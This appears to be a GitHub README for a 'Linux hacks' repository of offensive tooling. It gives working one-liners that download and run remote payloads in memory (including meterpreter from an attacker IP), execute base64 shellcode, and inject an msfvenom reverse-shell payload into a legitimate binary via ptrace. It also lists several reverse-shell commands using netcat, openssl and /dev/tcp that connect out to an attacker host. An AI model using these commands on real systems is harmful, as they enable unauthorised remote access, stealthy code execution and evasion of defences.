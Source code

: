 # Linux hacks
A collection of mostly security-related hacks for Linux operating systems. It is supposed to show that, while everyone is locking down their PowerShell and .NET in the Windows world, Linux is pretty much an attackers playground and is _not at all a more secure operating system_ (at least not by default).

## Using python
### [fileless.py](fileless.py)
Uses python to fetch a binary via http(s), write it to an in-memory file and execute it. For example to run the latest version of linpeas with all checks enabled you can just enter the following in any bash-compatible terminal:
```bash
python <(curl -s https://raw.githubusercontent.com/tav-r/Linux-hacks/main/fileless.py) https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh -a
```
of course this is pointless since you could also just run
```bash
bash <(curl -s https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh) -a
```
but maybe something like this?
```bash
FORK=1 python <(curl -s http://10.10.14.3/fileless.py) http://10.10.14.3/meterpreter
```

### [shellcode.py](shellcode.py)
Run shellcode from command line. First you need some base64-encoded shellcode:
```bash
nasm -f elf64 -o /tmp/shellcode.o shellcode.asm; ld -o /tmp/shellcode /tmp/shellcode.o; rm /tmp/shellcode.o
printf $(objdump -d /tmp/PIC_binary | egrep '^ ' | cut -f2 | sed -r -e 's/([0-9,a-f]{2})/\\x\1/g' -e 's/ //g' | tr -d '\n') | base64 | tr -d '\n'; echo; rm /tmp/shellcode
```
now we can run it (this simply spawns `/bin/sh`):
```bash
python shellcode.py McBIu9GdlpHQjJf/SPfbU1RfmVJXVF6wOw8F
```
of course we could do some more interesting stuff with this, like for example:
```bash
FORK=1 python <(curl 10.10.14.3/shellcode.py) $(curl --output - 10.10.14.3/shellcode.bin | base64 | tr -d '\n')
```

### [hide_in_image.py](hide_in_image.py)
This script forks and lets the child call `ptrace` to let the parent process trace it. After the child loaded a given binary using `execv`, the parent replaces the code at the entry point with the given shellcode and detaches. This is essentially an alternative way to run shellcode.
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=443 | base64 | tr -d '\n'  # ailYmWoCX2oBXg8FSJdIuQIAAbt/AAABUUiJ5moQWmoqWA8FagNeSP/OaiFYDwV19mo7WJlIuy9iaW4vc2gAU0iJ51JXSInmDwU=
python3 hide_in_image.py /usr/bin/top ailYmWoCX2oBXg8FSJdIuQIAAbt/AAABUUiJ5moQWmoqWA8FagNeSP/OaiFYDwV19mo7WJlIuy9iaW4vc2gAU0iJ51JXSInmDwU=
```

## fancy reverse shells and backdoors
```bash
# classic
mkfifo /tmp/p;nc 10.10.14.3 8888 </tmp/p | /bin/bash > /tmp/p;rm /tmp/p
# encrypted using openssl cli, handy if netcat not installed. Server has to use something like ncat --ssl -lvp ...
mkfifo /tmp/p;openssl s_client -quiet 10.10.14.3:8443 2>/dev/null < /tmp/p|bash>/tmp/p;rm /tmp/p
# tunneling over SSH (server listening on localhost:8080)
ssh -fN -L48924:127.0.0.1:8080 10.10.14.3;/bin/bash -l > /dev/tcp/localhost/48924 0<&1 2>&1
```

## forensics and reverse engineering
```bash
# dump all process memory including shared libraries etc., copy mapping info and archive everything.
# must be run as root (other users don't seem to be allowed to read memory)
 export PID=107136;export OUTDIR=$(mktemp -d);cat /proc/$PID/maps | cut -d" " -f1 | awk -F'-' '{print "dd if=/proc/$PID/mem of=${OUTDIR}/${PID}_"$1".dump bs=1 skip=$(printf %u 0x"$1") count=$((0x"$2"-0x"$1"))"}' | xargs -I DIFF bash -c "DIFF";cp /proc/$PID/maps $OUTDIR/maps;cd $OUTDIR;ls -1|tar cvzf dump_$PID.tar.gz --files-from=/dev/stdin;rm *.dump maps
```
